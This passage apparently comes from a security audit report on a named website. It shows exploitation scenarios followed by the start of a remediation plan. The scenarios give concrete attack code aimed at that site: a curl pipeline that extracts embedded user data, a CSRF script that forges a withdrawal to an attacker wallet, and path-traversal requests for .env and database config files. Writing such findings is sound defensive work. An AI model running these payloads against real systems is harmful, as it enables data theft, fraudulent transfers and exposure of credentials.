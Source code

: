 
## Exploitation Scenarios

### Scenario 1: Complete Data Exfiltration
```bash
# Simple curl command extracts entire user database
curl https://schneckyirl.com | grep 'data-page' | sed 's/.*data-page="//;s/">.*//;' | base64 -d > stolen_data.json
```

### Scenario 2: CSRF Attack Chain
```javascript
// 1. Harvest CSRF token
const token = document.querySelector('meta[name="csrf-token"]').content;

// 2. Create malicious form
const form = document.createElement('form');
form.method = 'POST';
form.action = '/api/withdraw';
form.innerHTML = `
  <input name="_token" value="${token}">
  <input name="amount" value="999999">
  <input name="wallet" value="attacker_wallet">
`;
form.submit();
```

### Scenario 3: Storage Path Traversal
```bash
# Attempt to access sensitive files
curl https://schneckyirl.com/storage/../../.env
curl https://schneckyirl.com/storage/../../config/database.php
```

---

## Recommended Remediation Roadmap

### Immediate Actions (P0 - Within 24 Hours)
1. **Take Application Offline** - Prevent further exposure
2. **Rotate All Secrets** - CSRF tokens, API keys, session keys
3. **Audit Access Logs** - Check for exploitation attempts
4. **Notify Affected Users** - Data breach disclosure requirements

### Short-term Fixes (P1 - Within 1 Week)
1. **Move Sensitive Data Server-Side**
   ```javascript
   // BAD: Client-side data
   <div data-page="{userData}">
   
   // GOOD: Server-side API
   fetch('/api/user/data', {
     headers: {'Authorization': 'Bearer ' + token}
   }).then(res => res.json())
   ```
